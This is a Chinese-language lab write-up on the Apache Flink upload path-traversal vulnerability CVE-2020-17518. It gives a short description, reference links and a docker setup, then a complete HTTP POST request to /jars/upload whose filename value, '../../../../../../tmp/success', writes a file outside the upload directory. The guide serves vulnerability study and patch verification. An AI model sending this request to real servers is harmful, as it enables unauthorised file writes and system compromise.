

Apache Flink 上传路径穿越漏洞（CVE-2020-17518）¶
Apache Flink 是一个开源的分布式流处理和批处理大数据计算引擎。
Apache Flink 1.5.1 版本引入了一个 REST handler，攻击者可以通过恶意修改 HTTP HEADER，实现将上传的文件写入到本地文件系统的任意位置。该问题在 Apache Flink 1.11.3 版本中得到修复。
参考链接：
- https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4
- https://nvd.nist.gov/vuln/detail/CVE-2020-17518
环境搭建¶
执行如下命令启动一个 Apache Flink jobmanager 1.11.2：
docker compose up -d
环境启动后，访问 http://your-ip:8081 即可查看到 Apache Flink 的管理页面。
漏洞复现¶
发送如下数据包，即可上传一个文件到目标服务器的 /tmp/success 位置：
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187
------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"
success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
上传成功后，即可在目标服务器上查看到 /tmp/success 文件：
